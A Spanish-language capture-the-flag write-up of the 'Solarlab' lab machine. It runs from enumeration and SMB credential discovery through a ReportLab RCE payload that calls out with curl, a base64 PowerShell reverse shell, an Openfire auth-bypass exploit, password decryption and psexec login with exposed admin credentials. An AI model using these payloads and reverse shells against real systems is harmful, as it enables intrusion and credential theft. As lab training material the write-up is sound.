# Solarlab

## Escaneo Inicial

Usamos ***nmap*** con los siguientes comandos

```bash
sudo nmap -sS --min-rate 5000 -p- -Pn 10.10.11.16 -vvv -oN Ports
```


Descubrimos los puertos ***80, 135, 139, 445 y 6791*** abiertos asi que continuamos con la versiones y scripts con ***nmap***

```bash
nmap -sS --min-rate 5000 -p80,135,139,445,6791 -sCV -oN PORTS 10.10.11.16
```

Encontramos un subdomain en el puerto ***6791*** pero lo dejamos para mas tarde.

Continuamos observando la pagina web el puerto 80


No encontramos nada interesante asi que continuamos con el puerto ***6791***


Nos encontramos con la pagina de logueo pero no tenemos ninguna credencial asi que verificamos el smbclient.

Con el siguiente comando vemos la lista de directorios compartidos en el smb.

```bash
smbclient -L solarlab.htb
```


Nos encontramos con el directorio Documents que no requiere password y prodia tener elementos interasantes.

```bash
smbclient //solarlab.htb/Documents
```


Nos bajamos lo archivos con el comando `get <nombre del archivo>` y lo visualizamos con google sheets.



En el excel encontramos credenciales de 3 usuarios.

Probamos las credenciales pero sin ningun exito pero nos damos cuenta que de los tres usuarios el unico que no posee el mismo formato es el usuario **`blake.byte`,** asi que procedemos a intentar loguearnos pero utilizando `BlakeB` mas su password **`ThisCanB3typedeasily1@`**



Ingresamos con exito.

Hacemos un reconocimiento de la pagina y buscamos en google por un exploit posible.

Encontramos el ***CVE-2023-33733*** que posee un poc en github.
[CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)

Hacemos la siguiente prueba del poc en el training request:
Creamos un servidor en el puerto 80 para recibir peticiones.

```bash
python3 -m http.server 80
```
Interceptamos el siguiente request con burpsuite


```python
add_paragraph("""
            <para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('curl http://10.10.14.27') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
build_document(doc, content)
```


Y presionamos forward para enviar la peticion.

Comprobamos si recibimos alguna peticion en nuestro http server.



Si recibimos la peticion lo cual nos dice que funciona correctamente asi que procedemos con el RCE.

Para el reverse shell usaremos el mismo codigo pero insertado un reverse shell de powershell en base64.

Activamos un listener en nuestra maquina atacante.

```bash
sudo nc -nlvp 4444
```
y generamos el reverse shell con reverse shell generator
[revshells.com](https://www.revshells.com/) para windows en powershell 3 (base64)



Hacemos un forward a la peticion y estamos dentro



Estamos dentro como blake.

No encontramos nada interesante mas que un servicio openfire y credenciales en la carpeta instance



Buscando sobre openfire encontramos que es un servicio que normalmente corre en el puerto 9090, el cual encontramos abierto cuando ejecutamos el comando:

```bash
netstat -ano
```



Procedemos a hacer el port forwarding  con chisel.

En nuestra maquina local ejecutamos chisel como servidor

```bash
chisel server -p 55555 --reverse
```

En la maquina victima usamos el siguiente comando:

```bash
./chisel.exe client <LOCAL-IP>:55555 R:9090:127.0.0.1:9090
```
a partir de eso ingresamos a firefox al puerto 9090 y nos encontraremos con un login de openfire



Verificamos que tiene la ***version 4.7.4*** y hacemos la busqueda de un exploit existente.

Encontramos el ***CVE-2023-32315*** con un poc existente en un repositorio de github.
[CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)

Ejecutamos el exploit:

```bash
python3 CVE-2023-32315.py -t http://127.0.0.1:9090 
```


Esto nos creara un usuario, una vez adentro continuamos con los siguientes pasos del poc.

Ya una vez en la webshell la utilizaremos para realizar el pivoting hacia el usuario ***openfire***.

Para esto utilizaremos el mismo reverse shell de powershell 3 en base64 pero con diferente puerto.

Nos ponemos en escucha del puerto seleccionado en mi caso ***7777***.

```bash
sudo nc -nvlp 7777
```

Y ejecutamos nuestro reverse shell en la webshell.

```bash
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA3ADcANwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```



Ya estamos dentro como el usuario openfire.

Una vez adentro revisamos los archivos interesantes y encontramos uno llamado `openfire.script` dentro de la carpeta `C:\Program Files\Openfire\embedded-db`  :

```bash
type openfire.script
```
Dentro de este archivo llegamos a encontrar credenciales del administrador.





Openfire encripta sus passwords asi que debemos encotrar una herramienta para desencriptarla para nuestra suerte alguien ya a creado despues de seguir los pasos de su instalacion puedes proseguir con el siguiente comando:

[openfire_decrypt](https://github.com/c0rdis/openfire_decrypt)

```bash
java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
```


Encontramos la password usuario administrator: ***`ThisPasswordShouldDo!@`***.

```bash
impacket-psexec admistrator:'ThisPasswordShouldDo!@'@10.10.11.16
```


Ya somos root y podemos obtener cualquier flag!